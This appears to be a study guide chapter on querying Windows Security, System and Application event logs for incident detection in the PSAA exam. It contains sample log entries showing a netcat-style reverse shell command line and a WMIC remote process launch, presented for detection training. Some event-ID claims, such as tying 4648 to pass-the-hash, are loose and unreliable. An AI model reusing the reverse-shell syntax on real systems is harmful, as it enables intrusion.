


# Windows Event Logs (System, Security, Application)

## TCM Exam Objectives

Before taking the PSAA exam, you must be able to:

- Compare traditional Antivirus (AV) with Endpoint Detection and Response (EDR) capabilities
- Configure and interpret Application Allowlisting using AppLocker and WDAC
- Create and analyze host-based firewall rules (Windows Defender Firewall)
- Examine file system and registry artifacts for forensic evidence of compromise
- Analyze Linux syslog and auth logs for SSH brute force and privilege escalation
- Investigate process and service information to detect malware and persistence
- Query Windows Event Logs (System, Security, Application) for incident detection
- Correlate endpoint telemetry with network evidence for comprehensive incident response

Windows Event Logs are the foundational telemetry source for endpoint security monitoring. The three core logs � System, Security, and Application � together provide a comprehensive record of OS operations, security events, and application activity.

- Windows Event Log architecture: locations, levels, and channels
- Security log: logon events, account management, object access, policy change
- System log: driver failures, service crashes, hardware errors
- Application log: application errors, crashes, warnings
- Event IDs essential for PSAA investigations


## Windows Event Log Architecture

### Log Locations

| Log | File Path | Description |
|-----|-----------|-------------|
| Security | `%SystemRoot%\System32\winevt\Logs\Security.evtx` | Logon, object access, audit events |
| System | `%SystemRoot%\System32\winevt\Logs\System.evtx` | Driver, service, hardware events |
| Application | `%SystemRoot%\System32\winevt\Logs\Application.evtx` | Application installs, crashes, errors |
| Setup | `%SystemRoot%\System32\winevt\Logs\Setup.evtx` | Windows installation/upgrade events |
| ForwardedEvents | `%SystemRoot%\System32\winevt\Logs\ForwardedEvents.evtx` | Events forwarded from other hosts |

### Event Levels

| Level | Value | Meaning |
|-------|-------|---------|
| Critical | 1 | System or application failure requiring immediate attention |
| Error | 2 | Problem that might affect functionality |
| Warning | 3 | Potential future issue |
| Information | 4 | Successful operation (logon, process start) |
| Verbose | 5 | Detailed diagnostic information |

## Security Log (Core PSAA Log)

The Security log is the most important for incident detection.

### Critical Security Event IDs

| Event ID | Description | PSAA Relevance |
|----------|-------------|----------------|
| 4624 | Successful logon | Normal activity; check for anomalous logon types/time |
| 4625 | Failed logon | Brute force / password spray detection |
| 4634 / 4647 | Logoff | Logoff tracking |
| 4648 | Explicit credential logon (RunAs) | Lateral movement via pass-the-hash |
| 4672 | Special privileges assigned to new logon | Admin logon detection |
| 4688 | Process creation | Process execution monitoring (with command line) |
| 4698 | Scheduled task created | Persistence mechanism |
| 4700 | Scheduled task enabled | Malicious task activation |
| 4719 | Audit policy changed | Attacker disabling logging |
| 4720 | User account created | Backdoor account creation |
| 4732 | Member added to security-enabled local group | Privilege escalation (e.g., added to Administrators) |
| 4740 | User account locked out | Brute force result |
| 4776 | Credential validation (domain) | NTLM authentication |
| 4778 / 4779 | Remote desktop session reconnect/disconnect | Lateral movement |
| 4798 | User's local group membership enumerated | Reconnaissance (whoami / network enumeration) |
| 5140 | File share accessed | Data exfiltration from file shares |
| 5156 | Windows Filtering Platform connection | Network connection allowed by firewall |
| 5157 | Windows Filtering Platform connection blocked | Network connection blocked by firewall |

### Logon Types

| Logon Type | Description | Typical Use | Suspicious If |
|------------|-------------|-------------|---------------|
| 2 | Interactive (keyboard/screen) | User logging in locally | System account interactive logon |
| 3 | Network (connecting to a share) | SMB, NetLogon, RPC | Non-standard times |
| 4 | Batch (scheduled task) | Task Scheduler | Unknown scheduled task |
| 5 | Service (service startup) | Windows services | Service account logon from non-service IP |
| 7 | Unlock (screen unlock) | Workstation unlock | Off-hours unlock |
| 8 | NetworkClearText (IIS) | HTTP basic auth | � |
| 9 | NewCredentials (RunAs) | Different user credentials | Pass-the-hash lateral movement |
| 10 | RemoteInteractive (RDP) | Remote Desktop | External IP to internal workstation |
| 11 | CachedInteractive (cached credentials) | Domain user offline logon | � |


### Event ID 4688 � Process Creation

Requires **Audit Process Creation** policy enabled. Captures:

```xml
<EventData>
  <Data Name="SubjectUserName">user1</Data>
  <Data Name="NewProcessName">C:\Users\user1\AppData\Local\Temp\svchost.exe</Data>
  <Data Name="CommandLine">svchost.exe -n 10.0.0.5 4444 -e cmd.exe</Data>
  <Data Name="CreatorProcessName">C:\Program Files\Internet Explorer\iexplore.exe</Data>
</EventData>
```

PSAA analysis:
- `NewProcessName` = `%TEMP%\svchost.exe` � malicious binary disguised as legitimate
- `CommandLine` = `svchost.exe -n 10.0.0.5 4444 -e cmd.exe` � classic reverse shell syntax
- `CreatorProcessName` = `iexplore.exe` � drive-by download via browser

### Event ID 5156 � Firewall Connection

```xml
<EventData>
  <Data Name="Application">C:\Users\user1\AppData\Local\Temp\svchost.exe</Data>
  <Data Name="SourceAddress">192.168.1.105</Data>
  <Data Name="DestAddress">185.220.101.45</Data>
  <Data Name="DestPort">4444</Data>
  <Data Name="Protocol">6</Data>
</EventData>
```

## System Log


| Event ID | Description | Forensic Value |
|----------|-------------|----------------|
| 41 | Kernel-Power (unexpected shutdown) | Attacker forced shutdown/BSOD |
| 1001 | Windows Error Reporting (crash dump) | Malware crash leaves memory dump |
| 7000/7001 | Service failed to start | Could be disabled AV service |
| 7031 | Service terminated unexpectedly | Killed AV/EDR service |
| 7045 | New service installed | Persistence via service creation |

### Suspicious System Log Patterns

- **Event 7045 + Event 7034** = Service installed and immediately crashes (malware installs and fails)
- **Event 41 without user shutdown** = Attacker triggered manual power-off to destroy evidence
- **Event 7000 for security services** = EDR/AV disabled by attacker

> **Exam Tip:** Correlate across multiple data sources. A suspicious IP address in network traffic is stronger evidence when confirmed by Windows Event Log ID 4625 (failed logon) or EDR process telemetry.

> **Exam Tip:** The most powerful Event ID combination for lateral movement detection is 4624 (Logon Type 3) followed by 4688 (process creation) on the target host. This chain proves a remote connection led to code execution.

> **Exam Tip:** Event ID 1102 (Security log cleared) is a critical alert. If the Security log is empty or starts right after an incident, the attacker cleared it. Check System log Event ID 104 (log cleared by system) and correlate with user activity.


## Application Log

| Event ID | Source | Meaning |
|----------|--------|---------|
| 1000 | Application Error | Application crash (malware crash may leave clues) |
| 1001 | Windows Error Reporting | Crash dump generation (memory forensics) |
| 1026 | .NET Runtime | Unhandled .NET exception (malware often .NET) |
| 11707 | MsiInstaller | MSI install product success |
| 11724 | MsiInstaller | MSI install product failure |

## Querying Event Logs

### PowerShell (Modern)

```powershell
$time = (Get-Date).AddDays(-1)
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625; StartTime=$time}

Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} | 
    Where-Object { $_.Properties[5].Value -match "powershell.*-enc" }

Get-WinEvent -FilterHashtable @{LogName='System'; ID=7045}

Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} | 
    Select-Object TimeCreated, @{N='User';E={$_.Properties[5].Value}}, @{N='IP';E={$_.Properties[18].Value}} |
    Export-Csv -Path logons.csv -NoTypeInformation
```

### wevtutil (Legacy)

```powershell
wevtutil qe Security /q:"*[System[EventID=4625]]" /c:10 /f:text

wevtutil epl Security C:\export\security.evtx

wevtutil gli Security
```

### Event Viewer (GUI)

Open `eventvwr.msc`:
- **Windows Logs > Security** � for security events
- **Windows Logs > System** � for OS events
- **Windows Logs > Application** � for app events
- **Filter Current Log** � filter by Event ID, Level, Time

## PSAA Investigation Scenarios

### Lateral Movement Detection

Chain: Event 4624 (Type 3) ? Event 4648 (RunAs) ? Event 4688 (process creation on remote host)

```
4624: Logon Type 3 (Network) from 192.168.1.105 to 10.0.0.5
4648: Explicit credential logon from user1 to 10.0.0.5
4688: wmic.exe /node:10.0.0.5 process call create "powershell ..."
```

Interpretation: `192.168.1.105` used WMIC to execute a command on `10.0.0.5` � lateral movement confirmed.

### Brute Force Detection

Event 4625 many times from same source IP with varying usernames:

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4625} | 
    Group-Object @{E={$_.Properties[18].Value}} | 
    Sort-Object Count -Descending | Select-Object -First 5
```

## Top 10 Hunting Event IDs for SOC Analysts

These Event IDs should be the first check in any Windows endpoint investigation. Correlate with Chapter 5.1 for deep-dive analysis.

| Priority | Event ID | Log | Why Hunt It | First Action |
|----------|----------|-----|-------------|--------------|
| 1 | 4625 | Security | Failed logon — brute force or password spray | Count by source IP |
| 2 | 4624 (Type 3/10) | Security | Network logon or RDP — lateral movement | Check source IP and account |
| 3 | 4688 | Security | Process creation with command line | Filter for `powershell -enc`, `rundll32`, `wmic` |
| 4 | 7045 | System | Service installed — persistence | Cross-reference with Chapter 5.1 persistence analysis |
| 5 | 4698 | Security | Scheduled task created — persistence | Check task action and trigger |
| 6 | 5156 | Security | Firewall allowed connection | Verify process making the connection |
| 7 | 1102 | Security | Security log cleared — evidence tampering | Immediate critical incident |
| 8 | 4720 | Security | User account created — backdoor | Verify creator and approve |
| 9 | 4648 | Security | Explicit credential logon (RunAs) | Pass-the-hash lateral movement |
| 10 | 4688 + 5156 combo | Security+Security | Process + network connection | Full C2/beacon detection |

> **Cross-reference:** For deep analysis of Event ID 4688 process trees, see Chapter 5.1 — Identifying Malicious Processes and Parent-Child Relationships. For Event ID 7045 service persistence, see Chapter 5.1 — Analyzing Persistence Mechanisms.

> **Cross-reference:** For lateral movement detection using Event 4624 Type 3 + 4648 chains, see Chapter 5.1 — Identifying Malicious Processes and Parent-Child Relationships. For PowerShell logging and Event 4688 command-line analysis, see Chapter 5.1 — PowerShell Logging. For service persistence via Event 4700/7045, see Chapter 5.1 — Analyzing Persistence Mechanisms.

## PSAA Exam Traps

- **Event 4625 does NOT include the target account name** in the message � check the XML fields `TargetUserName` and `WorkstationName`.
- **Event 4688 command line is blank by default.** Enable `Include command line in process creation events` via GPO to capture the full command line.
- **Event 4624 (Logon Type 3) from local SYSTEM account** is normal for server services. But Logon Type 3 from a user account to many servers signals lateral movement.
- **Event IDs are not unique across log sources.** Always specify the log name when querying.




  


## Recap

- Security log: logon, process creation, account changes, audit policy changes � primary incident detection source
- System log: service crashes, driver failures, unexpected shutdowns � reliability and tampering detection
- Application log: application crashes, installation events � application-level forensic data
- Event IDs 4624/4625 (logon), 4688 (process), 4698 (task), 4720 (account) are essential for PSAA scenarios
- Logon Type distinguishes interactive, network, RDP, and batch � critical for lateral movement analysis
- Use `Get-WinEvent` and `wevtutil` for efficient log querying from command line
